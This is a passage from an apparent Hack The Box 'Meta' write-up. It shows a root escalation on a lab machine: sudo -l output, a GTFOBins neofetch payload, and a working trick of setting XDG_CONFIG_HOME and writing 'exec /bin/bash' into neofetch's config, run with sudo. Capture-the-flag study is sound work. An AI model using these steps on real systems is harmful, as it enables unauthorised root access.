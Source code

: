 

save as "test.svg" inside `/var/www/dev01.artcorp.htb/convert_images/` and wait for few minute - `watch -n 1 ls -la /dev/shm`

![](/assets/img/posts/meta/user-1000-id_rsa.png)

And login "thomas" private ssh key as user "thomas" 

## sudo `neofetch` with XDG_CONFIG_HOME

User "thomas" can run `/usr/bin/neofetch` as root with NOPASSWD
```bash
thomas@meta:~$ sudo -l
Matching Defaults entries for thomas on meta:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+=XDG_CONFIG_HOME

User thomas may run the following commands on meta:
    (root) NOPASSWD: /usr/bin/neofetch \"\"
```

And there is gtfobin for `neofetch` - https://gtfobins.github.io/gtfobins/neofetch/
```bash
TF=$(mktemp)
echo 'exec /bin/sh' >$TF
sudo neofetch --config $TF
```

But it is not working.

We already found config file from find command `/home/thomas/.config/neofetch/config.conf`
```bash
echo 'exec /bin/sh' > /home/thomas/.config/neofetch/config.conf
sudo /usr/bin/neofetch \"\"
```

But still not working.

There is a keep env variable `env_keep+=XDG_CONFIG_HOME`

And we can see from one of neofetch issue on github

* https://github.com/dylanaraps/neofetch/issues/1088
* https://github.com/dylanaraps/neofetch/commit/1278844d87fc9d133258b9ba332fbed3a97c0279

That, Config file is loading form "XDG_CONFIG_HOME" env variable.

So setting `XDG_CONFIG_HOME` allow `neofetch` to access user defined config file from user's `.config` directory.
```bash
export XDG_CONFIG_HOME="$HOME/.config"
echo 'exec /bin/bash' > /home/thomas/.config/neofetch/config.conf
sudo /usr/bin/neofetch \"\"
```

![](/assets/img/posts/meta/rooted.png)